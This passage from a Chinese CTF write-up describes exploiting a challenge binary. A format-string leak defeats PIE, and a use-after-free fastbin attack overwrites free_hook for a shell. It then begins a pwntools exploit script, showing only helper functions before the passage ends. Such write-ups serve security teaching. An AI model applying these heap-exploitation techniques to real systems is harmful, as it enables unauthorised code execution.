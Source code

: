 本题的漏洞利用难度要高一些，可以发现题目中提供了`Check Code`功能。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-020620.png)

分析后发现了一个格式化字符串漏洞用来泄露程序的PIE~

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-024041.png)

并且发现，delete函数处依旧存在UAF漏洞，那么可以利用`Fastbin Attack`劫持`Oreo list`进而篡改`free_hook`来get_shell。

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

interested=ELF('./interested')

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elif context.arch == 'i386':
    libc=ELF("/lib/i386-linux-gnu/libc.so.6")

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./")
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./interested")

def get_address(sh,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_gdb(sh,stop=False):
    gdb.attach(sh)
    if stop :
        raw_input()

def creat(sh,name_size,name_value,desc_size,desc_value):
    sh.recvuntil('&gt; Now please tell me what you want to do :')
    sh.sendline('1')
    sh.recvuntil('&gt; O's length : ')
    sh.sendline(str(name_size))
    sh.recvuntil('&gt; O : ')
    sh.sendline(name_value)
    sh.recvuntil('&gt; RE's length : ')
    sh.sendline(str(desc_size))
    sh.recvuntil('&gt; RE : ')
    sh.sendline(desc_value)

```